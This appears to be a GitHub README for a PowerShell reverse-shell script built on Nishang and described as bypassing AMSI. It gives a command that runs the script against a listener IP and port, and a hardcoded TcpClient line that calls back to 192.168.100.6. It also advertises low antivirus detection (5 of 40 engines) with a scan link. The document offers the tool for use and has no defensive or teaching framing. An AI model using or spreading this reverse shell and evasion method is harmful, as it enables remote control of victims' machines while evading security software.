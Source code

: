 # RevershellTCP_BypassAMSI

This script is based on Nishang's, thanks for sharing<br>


```sh
. .\ .\rshell.ps1 192.168.100.6 443
```
![image](https://user-images.githubusercontent.com/66162160/163723667-0e4ff036-e469-4d8e-b6ac-919344bb7e0b.png)


## If you want to modify the connection automatically with no arguments just modify line 1 as follows.

$servidor = new-object System.Net.Sockets.TcpClient('192.168.100.6',80);  <br>

## Bypass 05/40 AV 

https://kleenscan.com/scan_result/4789bcc1351d6c4ded38b058fc8696bac69204dc4866f404310b14d0d2fcbd04

![image](https://user-images.githubusercontent.com/66162160/163724011-54d3413f-6b90-43fd-9632-6e77764b1cb2.png)
